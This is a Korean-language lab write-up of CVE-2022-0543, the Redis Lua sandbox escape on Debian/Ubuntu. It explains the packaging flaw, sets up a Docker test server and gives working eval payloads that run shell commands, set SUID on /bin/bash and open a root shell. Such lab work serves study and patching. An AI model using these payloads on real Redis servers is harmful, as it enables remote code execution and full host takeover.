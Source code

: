 # CVE-2022-0543

**Contributors**

-   [박연준(@yeo0n)](https://github.com/yeo0n)

<br/>

### 요약
-   Debian/Ubuntu의 패키징 문제로 인해 임의의 Lua 스크립트를 실행할 수 있는 원격 공격자가 Lua 샌드박스를 탈출하여 호스트에서 임의의 코드를 실행할 수 있습니다.
>   https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543
>   https://ine.com/blog/cve-20220543-lua-sandbox-escape-in-redis
>   https://www.linode.com/ko/blog/security/linode-security-digest-cassandra-redis-snap-confine/
>   https://nvd.nist.gov/vuln/detail/CVE-2022-0543

<br/>

### Redis란?

-   Redis는 Key, Value 구조의 비정형 데이터를 저장하고 관리하기 위한 오픈 소스 기반의 비관계형 데이터 베이스 관리 시스템 (DBMS)입니다.
-   데이터베이스, 캐시, 메세지 브로커로 사용되며 인메모리 데이터 구조를 가진 저장소입니다.

<br/>

### CVE-2022-0543 소개

-   2022년 2월 Redis의 심각한 취약점이 보고되었습니다. Redis는 패키징 문제로 인해 (Debian 관련) Lua 샌드박스 이스케이프가 발생하기 쉽고 이로 인해 원격 코드가 실행될 수 있는 것으로 나타났습니다.
-   주목해야 할 중요한 점은 이 취약점은 Debian 및 Debian 파생 Linux 배포만에만 적용된다는 것입니다. 업스트림 Redis는 영향을 받지 않습니다.
-   Reginaldo Silva가 Debian/Ubuntu의 패키징 문제로 인해 임의의 Lua 스크립트를 실행할 수 있는 원격 공격자가 Lua 샌드박스를 이스케이프하여 호스트에서 임의의 코드를 실행할 수 있음을 발견했습니다.
-   근본적인 원인은 Lua 라이브러리가 Debian 동적 라이브러리로 제공됩니다. "패키지"변수가 자동으로 채워지므로 임의의 Lua 기능에 대한 액세스가 허용됩니다. 예를 들어 이 기능은 "os"모듈의 "execute" 함수로 확장되면 임의의 Lua 코드를 실행할 수 있는 공격자가 임의의 셸 명령을 실행할 수 있습니다.

<br/>

### PoC 코드

```
eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("touch /root/redis_poc"); return 0' 0
```

<br/>

### 환경 구성 및 실행

-   터미널 창을 연 후, 다음 명령을 실행하여 Redis 서버 5.0.7 테스트 환경을 실행합니다.
```
docker compose up -d
```

-   서버가 시작된 후 다음 명령어를 통해 자격 증명 없이 이 서버에 연결할 수 있습니다. Redis 서버의 기본 설치에는 비밀번호가 없는 기본 사용자가 함께 제공됩니다. `redis-cli`
```
redis-cli -h your-ip
```

-   exit 명령어로 연결을 끊은 후, Docker로 연 redis 서버에서 다음 명령어로 실행 중인 프로세스를 식별합니다. (기본 포트인 6379에서 수신 대기중이며, Root로 실행되고 있음을 확인)
```
ps aux
```

-   Redis 서버에 다시 연결합니다.
```
redis-cli
```
![](1.png)

-   PoC는 공유 Lua 라이브러리를 참조하기 때문에 사용 가능한 공유 Lua 라이브러리를 확인합니다.
```
ls -al /usr/lib/x86_64-linux-gnu/liblua*
```
![](2.png)

-   redis-cli로 연결한 후 다음 PoC 코드를 입력합니다. (주의할 점: touch 뒤에 있는 경로를 pwd로 확인하여 확인하기 쉽게 변경)
```
redis cli
eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("touch /root/redis_poc"); return 0' 0
```

-   이제 redis-cli를 종료하고 redis_poc 파일을 확인합니다.
```
exit
ls -al
```
![](3.png)

-   redis-cli에 연결하고 다음 `id`의 os 명령을 실행하는 페이로드를 입력합니다.
```
redis-cli
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```
![](4.png)

-   다음으로 루트 셸을 얻기 위해 Lua 샌드박스 이스케이프 익스플로잇을 활용하여 `bash`를 `SUID` 루트 바이너리로 만듭니다.
```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ls -al /bin/bash", "r"); local res = f:read("*a"); f:close(); return res' 0
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("chmod +s /bin/bash", "r"); local res = f:read("*a"); f:close(); return res' 0
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ls -al /bin/bash", "r"); local res = f:read("*a"); f:close(); return res' 0
```
![](5.png)

-   redis-cli를 종료하고 루트 셸을 얻기 위해 루트 사용자로 로그인합니다.
```
exit
/bin/bash -p
id
```
![](6.png)

<br/>

### 결과

![](result.png)

<br/>

### 정리

-   이 취약점은 Redis가 데비안 계열의 우분투 패키징 문제로 Lua 샌드박스를 이스케이프하여 호스트에서 임의의 코드를 실행할 수 있었습니다. 따라서 안전한 redis 서버를 운영하기 위해서 주기적으로 redis 버전을 확인하고 업데이트 하는 것이 필요합니다.